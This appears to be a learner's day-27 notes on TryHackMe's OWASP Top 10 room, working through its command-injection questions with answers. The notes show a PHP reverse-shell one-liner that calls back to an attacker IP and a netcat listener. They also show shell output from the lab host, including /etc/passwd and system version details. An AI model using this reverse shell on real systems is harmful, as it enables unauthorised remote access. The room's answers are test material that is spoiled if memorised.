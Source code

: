
#	Day 27

#### 07-02-2022

# TryHackMe Rank  34530 ( 59 Streak )


#  OWASP Top 10
[TryHackMe OWASP Top 10](https://tryhackme.com/room/owasptop10)


1.    Injection
2.    Broken Authentication
3.    Sensitive Data Exposure
4.    XML External Entity
5.    Broken Access Control
6.    Security Misconfiguration
7.    Cross-site Scripting
8.    Insecure Deserialization
9.    Components with Known Vulnerabilities
10.   Insufficent Logging & Monitoring


#	1.    Injection

-	Injection flaws are very common in applications today.
-	These flaws occur because user controlled input is interpreted as actual commands or parameters by the application.
-	Injection attacks depend on what technologies are being used and how exactly the input is interpreted by these technologies.
-	Some common examples include:

-       SQL Injection: This occurs when user controlled input is passed to SQL queries.
-	As a result, an attacker can pass in SQL queries to manipulate the outcome of such queries.

-	Command Injection:

	-	This occurs when user input is passed to system commands.
	-	As a result, an attacker is able to execute arbitrary system commands on application servers.


	What is Active Command Injection?


	-	Blind command injection occurs when the system command made to the server does not return the response to the user in the HTML document.
	-	Active command injection will return the response to the user.  It can be made visible through several HTML elements.

	-	Let's consider a scenario: EvilCorp has started development on a web based shell but has accidentally left it exposed to the Internet.
	-	It's nowhere near finished but contains the same command injection vulnerability as before!  But this time, the response from the system call can be seen on the page!  They'll never learn!


Q1.	What strange text file is in the website root directory?

```
	IP = use ip a and get tnu0

	Syntax for reverse shell in php
	php -r '$sock=fsockopen("IP",PORT);exec("/bin/bash  -i <&3 >&3 2>&3");'


	enter this code in any input field
	php -r '$sock=fsockopen("10.9.1.196",5555);exec("/bin/bash  -i <&3 >&3 2>&3");'



	└─╼ $ sudo  nc -lvp 5555

	listening on [any] 5555 ...
	10.10.208.90: inverse host lookup failed: Unknown host
	connect to [10.9.1.196] from (UNKNOWN) [10.10.208.90] 53570
	bash: cannot set terminal process group (974): Inappropriate ioctl for device
	bash: no job control in this shell
	www-data@injection:/var/www/html$ ls
	ls
	css
	drpepper.txt
	evilshell.php
	index.php
	js

```

###	Ans: drpepper.txt

Q2.	How many non-root/non-service/non-daemon users are there?

```
www-data@injection:/var/www/html$ cat /etc/passwd
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin

```

### Ans: 0

Q3.	What user is this app running as?

```
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin

```
###	Ans:	www-data

Q4.	What is the user's shell set as?

```
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin

```
###	Ans :	/usr/sbin/nologin

Q4.	What version of Ubuntu is running?

```
Way -1
www-data@injection:/var/www/html$ cat /proc/version
cat /proc/version
Linux version 4.15.0-101-generic (buildd@lgw01-amd64-003) (gcc version 7.5.0 (Ubuntu 7.5.0-3ubuntu1~18.04)) #102-Ubuntu SMP Mon May 11 10:07:26 UTC 2020


Way -2
www-data@injection:/var/www/html$ uname -a
uname -a
Linux injection 4.15.0-101-generic #102-Ubuntu SMP Mon May 11 10:07:26 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux

Way -3 (recommand)

www-data@injection:/var/www/html$ lsb_release -a
lsb_release -a
No LSB modules are available.
Distributor ID: Ubuntu
Description:    Ubuntu 18.04.4 LTS
Release:        18.04
Codename:       bionic

```

Q5.	Print out the MOTD.  What favorite beverage is shown?

MOTD	 Message of the data
```
www-data@injection:/var/www/html$ cd /etc
cd /etc
www-data@injection:/etc$ ls | grep "motd"
ls | grep "motd"
update-motd.d
www-data@injection:/etc$ cd update-motd.d
cd update-motd.d
www-data@injection:/etc/update-motd.d$ ls
ls
00-header
10-help-text
50-landscape-sysinfo
50-motd-news
80-esm
80-livepatch
90-updates-available
91-release-upgrade
92-unattended-upgrades
95-hwe-eol
97-overlayroot
98-fsck-at-reboot
98-reboot-required
www-data@injection:/etc/update-motd.d$ cat 00-header
cat 00-header
#!/bin/sh
#
#    00-header - create the header of the MOTD
#    Copyright (C) 2009-2010 Canonical Ltd.
#
#    Authors: Dustin Kirkland <kirkland@canonical.com>
#
#    This program is free software; you can redistribute it and/or modify
#    it under the terms of the GNU General Public License as published by
#    the Free Software Foundation; either version 2 of the License, or
#    (at your option) any later version.
#
#    This program is distributed in the hope that it will be useful,
#    but WITHOUT ANY WARRANTY; without even the implied warranty of
#    MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
#    GNU General Public License for more details.
#
#    You should have received a copy of the GNU General Public License along
#    with this program; if not, write to the Free Software Foundation, Inc.,
#    51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.

[ -r /etc/lsb-release ] && . /etc/lsb-release

if [ -z "$DISTRIB_DESCRIPTION" ] && [ -x /usr/bin/lsb_release ]; then
        # Fall back to using the very slow lsb_release utility
        DISTRIB_DESCRIPTION=$(lsb_release -s -d)
fi

printf "Welcome to %s (%s %s %s)\n" "$DISTRIB_DESCRIPTION" "$(uname -o)" "$(uname -r)" "$(uname -m)"

DR PEPPER MAKES THE WORLD TASTE BETTER!

```

###	Ans : DR PEPPER